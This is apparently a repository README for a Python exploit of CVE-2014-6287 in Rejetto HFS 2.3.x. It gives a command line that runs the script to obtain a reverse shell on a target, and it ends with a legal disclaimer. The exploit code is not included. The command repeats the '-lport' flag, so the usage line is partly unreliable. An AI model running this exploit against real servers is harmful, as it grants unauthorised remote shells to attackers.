 # Project Title

CVE-2014-6287 Rejetto HFS (HTTP File Server) 2.3.x - Remote Command Execution

## Description

A python3 script for the CVE-2014-6287 Rejetto HFS exploit in order get a reverse shell.

## Getting Started

### Executing program

* With python3
```
python3 hfs.py -t http://hfssite.com -lport 127.0.0.1 -lport 9001
```

## Help

For help menu:
```
python3 hfs.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
